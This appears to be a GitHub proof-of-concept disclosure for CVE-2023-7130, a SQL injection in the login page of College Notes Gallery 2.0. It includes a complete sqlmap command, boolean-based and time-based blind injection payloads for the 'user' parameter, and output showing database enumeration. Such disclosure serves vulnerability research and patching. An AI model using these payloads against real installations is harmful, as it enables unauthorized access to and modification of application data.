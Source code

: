 # CVE-2023-7130_College_Notes_Gallery-SQL_Injection
+ **Exploit Title:** CVE-2023-7130_College_Notes_Gallery-SQL_Injection
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevbens
+ **Vendor Homepage:** https://code-projects.org/college-notes-gallery-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/COLLEGE_NOTES_GALLERY_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 2.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2023-7130

## References: 
+ **CVE-2023-7130:** https://vuldb.com/?id.249133
+ https://www.cve.org/CVERecord?id=CVE-2023-7130
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7130
+ https://nvd.nist.gov/vuln/detail/CVE-2023-7130

## Description:
College Notes Gallery 2.0 allows SQL Injection via parameter 'user' in "/notes/login.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the login page: "http://localhost/notes/login.php"
+ Fill the username and password then click 'login' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit. In sqlmap, use 'user' parameter to dump the database. 
```
sqlmap -r r.txt -p user --risk 3 --level 5 --threads 1 --random-agent tamper=randomcase --dbms mysql --batch --current-db
```

```
---
Parameter: user (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: user=test' OR NOT 7621=7621-- SdON&pass=test&login=login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=test' AND (SELECT 6983 FROM (SELECT(SLEEP(5)))KqgU)-- Reeu&pass=test&login=login
---
[16:16:28] [INFO] testing MySQL
[16:16:28] [INFO] confirming MySQL
[16:16:28] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[16:16:28] [INFO] fetching current database
[16:16:28] [INFO] resumed: notes
current database: 'notes'
```

+ current database: `notes`
![1](https://github.com/h4md153v63n/CVEs/assets/5091265/16752d90-2918-4777-884a-131dcd93b06e)
